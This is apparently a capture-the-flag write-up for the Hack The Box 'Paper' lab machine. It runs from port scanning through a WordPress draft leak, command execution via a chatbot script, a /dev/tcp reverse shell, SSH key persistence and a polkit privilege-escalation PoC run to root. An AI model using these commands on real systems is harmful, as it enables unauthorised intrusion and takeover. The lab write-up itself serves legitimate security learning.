


---
tags:
  - hack
  - linux
---

# HTB: [Paper](https://app.hackthebox.com/machines/Paper)

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 10:17 CST
Nmap scan report for 10.10.11.143
Host is up (0.26s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
| tls-alpn: 
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.90 seconds
```

HTTP headers:

```console
$ curl -kI $t |head -n40
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0  195k    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
HTTP/1.1 403 Forbidden
Date: Wed, 11 Oct 2023 18:07:17 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8

```

Note: `X-Backend-Server: office.paper`

I add `office.paper` the `/etc/hosts` and check the vhost:



## Exploit

This version of WordPress is vulnerable to CVE-2019-17671, "WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts", which is [trivially exploitable](https://www.exploit-db.com/exploits/47690).

<http://office.paper/?static=1> reveals:

```text
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

## Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,  
WRITTEN AND DIRECTED BY  
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

## Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

## I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

## Also, stop looking at my drafts. Jeez!
```

<http://chat.office.paper/home>:


Using the revealed URL `http://chat.office.paper/register/8qozr226AhkCHZdyY` I registered a user "dwight" and got access to the group chat. I find a chatbot called `recyclops`, running [hubot](https://github.com/hubotio/hubot) code:


Easy LFI:



After trying to escape the chatbot's `list` and `file` input sanitization, I discover a more direct way to execute commands:

```text
- <!=====Contents of file ../../../..//home/dwight/hubot/scripts/run.js=====>
    
- // Description:  
    // Runs a command on hubot  
    // TOTAL VIOLATION of any and all security!  
    //  
    // Commands:  
    // hubot run <command> - runs a command on hubot host  
      
    module.exports = function(robot) {  
    robot.respond("/RUN (.*)$/i", function(msg) {  
    console.log(msg);  
    var cmd = msg.match[1];  
    msg.send("Running " + cmd);  
    var exec = require('child_process').exec;  
    exec(cmd, function(error, stdout, stderr) {  
    if (error) {  
    msg.send(error);  
    msg.send(stderr);  
    } else {  
    msg.send(stdout);  
    }  
    });  
    });  
    };
    
- <!=====End of file ../../../..//home/dwight/hubot/scripts/run.js=====>
```

It works just fine:

```text
- run id
    
- 
    
    recyclopsBot12:59 PM
    
    Running id
    
- Running id
    
- uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

```text
-   
    Running cat ~/user.txt
    
- eb01bf[...]
```

I use the same mechanism to run a reverse shell (`sh -i >& /dev/tcp/10.10.16.5/443 0>&1`) back to my `nc` listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.143] 40934
sh: cannot set terminal process group (1663): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
sh-4.4$ 
```

To gain `ssh` access, I add my public key to `~/.ssh/authorized_keys`:

```text
pwd
/home/dwight/.ssh
echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k > authorized_keys
```

And login:

```console
$ ssh dwight@${t}
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ 
```

## Escalate

I find an environment file with a password by grepping around:

```console
[dwight@paper ~]$ cat hubot/.env 
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1

```

This gives me the password for user `dwight`, but unfortunately that user has no `sudo` privileges.

I don't find any interesting `setuid` binaries.

Eventually I discover that the version of `sudo` on the machine is vulnerable to [CVE-2021-3560](https://www.exploit-db.com/exploits/50011). There's a PoC available. The exploit allows adding a new user with `sudo` access.

```console
[dwight@paper ~]$ ./poc.sh  -u=luser

[!] Username set as : luser
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username luser...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username luser  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - luser
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!

[dwight@paper ~]$ su - luser
Password: 
[luser@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for luser: 
[root@paper luser]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper luser]# cat /root/root.txt
aa1ea2[...]
```
